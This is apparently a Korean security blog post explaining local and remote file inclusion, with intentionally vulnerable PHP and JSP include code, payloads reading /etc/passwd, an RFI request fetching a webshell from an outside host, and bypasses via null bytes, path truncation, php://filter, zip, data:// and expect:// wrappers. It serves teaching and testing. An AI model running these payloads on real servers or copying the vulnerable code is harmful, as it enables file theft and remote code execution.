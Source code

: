 ```yaml
---
layout: single
title: File Inclusion (LFI/RFI)
categories: Web-vuln
tag: [File Inclusion, LFI,RFI, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# File Inclusion 취약점이란?

> 해당 취약점은 응용 프로그램에서 File을 불러 올 때 include를 사용하여 코드내에 Built 하거나 동적으로 파일을 포함하는 로직이 구현되어있을경우 일반적으로 나타나며, 다른 Path Traversal 과 같은 타 취약저믈과 연계될 수 있다.

💡 **<u>이러한 File Inclusion은 Local File Inclusion(LFI)와 Remote File Inclusion(RFI)로 나뉜다.</u>** 
{: .notice--primary} 

```javascript
$file = $_GET['file'];

include('testdircetory/' . $file);
```

위와같은 코드는 File Inclusion에 취약한 코드라고 볼 수 있다. 위와 같이 구현되어 있을 경우<br>
아래와 같은 취약점으로 이어질 수 있다.

```
http://test.com/?file=../../../etc/passwd
```

# Local File Inclusion
로컬에 존재하는 파일, 현재 서버에 존재하고 있는 파일을 실행할 수 있으며, 웹 서버의 엑세스 로그, 패스워드파일 등 민감한 파일을 열거 할 수 있으며, 해당 서버에 공격자가 File Upload 취약점을 통해 웹 쉘을 올려놓았어도 이를 Include 시킬 수 있다.

```
GET /testlfi?path=file:///etc/passwd
```

# Remote File Inclusion
원격지에서 파일을 읽어들여 이를 inclusion 하는 취약점이며, 공격자가 본인의 서버에 웹쉘을 미리 생성하여 이를 Inclusion 할 수 있다.<br>
http, ftp uri형식으로 보통 가져온다.

```
GET /testrfi?lib=https://eval.com/webshell.php
```

# 공격 표면
file을 읽은 후 이를 가져올 수 있는 구간이면 해당 취약점을 의심해볼 수 있다. 절대경로 또는 상대경로를 통해 요청을 하였을 시 요청 경로가 삭제되지 않는다면 LFI는 발생한다.

## 언어별 취약 코드 로직

<div class="notice--primary" markdown="1">

- PHP

```php
<?php
if (isset($_GET['file'])) {
    include($_GET['file'] . '.php');
}
?>
```

- JSP

```jsp
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

<hr>

```
GET /testlfi?path=file:///etc/passwd
'''
or
'''
GET /testlfi?path=file=../../../../etc/passwd
```
위와같이 테스트해볼 수 있다. 
</div>

# Bypass - File Inclusion

## Null Byte injection

```php
<?php include($_GET['file'].".php"); ?>
```

위와같이 .php 확장자의 파일만 불러올 수 있게 되어있다면, null 바이트 문자를 통해 이를 우회할 수 있다.
> null을 가르키는 특수 바이트 이후의 모든 문자는 무시된다.

```
file=../../../../etc/passwd%00.php
```

## Path and Dot 
PHP 파일 이름은 4096 바이트로 제한되며, 해당 바이트보다 많은 바이트의 이름을 가지고 있다면 PHP는 파일 이름을 자르고 추가 문자를 버리게된다. 해당 방법은 오류가 발생되지 않고 정상적으로 PHP가 동작하게 된다. 이때 쓰레기 값으로 인코딩, DOUBLE 인코딩, 유니코드 인코딩 등의 값으로 채우면 된다.

```
GET /testlfi?path=file=../../../../etc/passwd...............
GET /testlfi?path=file=../../../../etc/passwd\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
GET /testlfi?path=file=../../../../etc/passwd/././././././././././././././.
GET /testlfi?path=file=../../../../../../../../../../../../../etc/passwd
```

## PHP Filter
php의 filter은 로컬 파일 시스템에 access 하는데 사용되며, 특히 서버가 파일을 실행하지 못하게 하는 파일의 내용을 가져오는 데 악용할 수 있다.

```
http://[site]/index.php?page=php://filter/convert.base64-encode/resource=FILE
```

위와같이 보낼경우 FILE은 base64로 인코딩된 값을 받아오며, 이를 다시 디코딩하게되면 확인할 수 있다.

<div class="notice">
- php://filter/convert.base64-encode/resource=FILE
- php://filter/convert.iconv.utf-8.utf-16/resource=FILE
- php://filter/convert.base64-encode/resource=FILE
- php://filter/zlib.deflate/convert.base64-encode/resource=FILE
- rot13 사용도 생각해두자.
</div>

## PHP ZIP
php filter와 같이 php의 wraper 이며, zip파일을 통한 우회가 가능하다.
1. 원하고자 하는 php 파일 생성 ex)shell.php
2. zip 파일로 압축 ex)target.zip
3. zip 파일의 확장자를 jpg과 같이 변경하여 확장 유효성 검사를 우회 후 공격 대상 사이트에 업로드
4. /test/image/upload/ 에 저장되어있을 경우 url을 통해 zip wraper을 실행
5. zip:///test/image/upload/target.jpg%23shell.php

```
http://[site]/index.php?page=zip:///test/image/upload/target.jpg%23shell.php
```

## PHP Data Scheme
원하고자 하는 데이터(쉘코드)를 base64로 인코딩하여 data 스킴을 사용하여 우회할 수 있다.
> 원형 : data://text/plain;base64,BASE64_STR

```
http://[site]/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9wYXNzd2QnKTsgPz4=

// base64 -> <?php echo file_get_contents('/etc/passwd'); ?>
```

## PHP expect
해당 wrapper은 표준입출력 및 표준에러를 통해 프로세스에 대한 액세스를 제공한다. 시스템 명령을 가져올 수 있다.

```
GET /index.php?file=expect://id
GET /index.php?file=expect://ls
```

# 대응 방안
사용자이 입력값 검증을 통해 파일 이름의 크기범위에 대해 제한하며, 특수문자등 필터링이 적절히 이루어져야한다. 또한 URI 에 대한 화이트리스트 기반의 정책을 설정해야한다.

# Referance
- https://www.hahwul.com/cullinan/file-inclusion/
- https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_file_inclusion
- https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion